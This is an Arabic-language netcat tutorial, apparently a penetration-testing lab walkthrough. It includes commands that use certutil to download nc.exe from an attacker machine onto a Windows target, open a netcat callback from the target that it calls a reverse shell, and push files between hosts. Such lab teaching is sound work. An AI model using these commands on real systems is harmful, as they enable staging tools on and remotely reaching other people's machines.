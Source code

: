 عشان نفتح بايثون سيرفر  
```bash
python -m SimpleHTTPServer 80  
```  

والان نتوجه لمشين التارقت عشان نحمل الباينري او حقنا من جهاز الاتاكر طبعا فيه اداة خاصة بالويندوز نفسل اداة wget في لينكس  
```bash
certutil -urlcache -f http://10.10.28.3/nc.exe nc.exe  
```  

طبعا الان انتقلت الاداة تمام طيب خولنا نفتح بورت من جهاز الاتاكر عشان يتصل علينا التارقت  

Attacker machine  
```bash
nc -nvlp 1234  
```  

ونروح الان لمشين التارقت عشان نجرب نتصل على جهاز الاتاكر بنفس البورت الي فتحناه  
```bash
.\nc.exe 10.10.28.3 1234  
```  

نشوف انه الان عطانا الاتصال نرجع لجهاز الاتاكر ونجرب نكتب اي شي بالتيرمنال ونضغط انتر ونشوف انه ماعطانا اي نتيجة ليه هل هذا يعني مافي اتصال ؟ اكيد لا الاتصال موجود والدليل على هذا نرجع لجهاز التارقت ونشوف البورشيل فيها اي شي كتبناه في التيرمنال الي بجهاز الاتاكر  

وهذا يسمى reverse shell  

وهذا يعني ان الاتصال موجود لكن مابعد تعاملنا مع الـ cmd من جهاز الاتاكر الى جهاز التارقت  

ف الان راح نشوف طرق اخرى مع بعض وكيف ممكن تاخذ الشيل وتقدر تنفذ اوامر على جهاز التارقت  

طيب خلونا ننفذ هذا الامر في جهاز الاتاكر  
```bash
echo "Hello, this was sent over with Netcat" >> test.txt  
```  

هذا الامر طبعا نقوله اطبع لنا مابين علامتين التنصيص واضفه داخل ملف test.txt نشوف انه سوا لنا ملف بنفس الاسم ونفس المحتوى  

طيب خلونا الان خلونا نفتح بروت 1234 في جهاز التارقت   
```bash
.\nc.exe -nvlp 1234 > test.txt  
```  

نشوف انه فتح تمام وحنا قلنا له انه افتح هذا البورت واي شي يجي من هذا البورت اضفه في ملف test.txt نلاحظ انه مافي اي ملف اسمه test.txt على جهاز التارقت فقط على جهاز الاتاكر  

الان راح نرسل الملف الي سويناه في جهاز الاتاكر الى جهاز التارقت عن طريق البورت الي مفتوح على جهاز التارقت  
```bash
nc -nv 10.4.20.244 1234 < test.txt  
```  

وهنا قلنا له اتصل بالجهاز الي الايبي تبعه 10.4.20.244 وارسله ملف test.txt ف اول مايتم الاتصال وينجح راح يرسله  الملف فورا الى جهاز التارقت  

ف الان نرجع ونشوف جهاز التارقت نحصل انه فعلا صار عنده ملف اسمه test.txt بنفس المحتوى الملف الي موجود على جهاز الاتاكر  
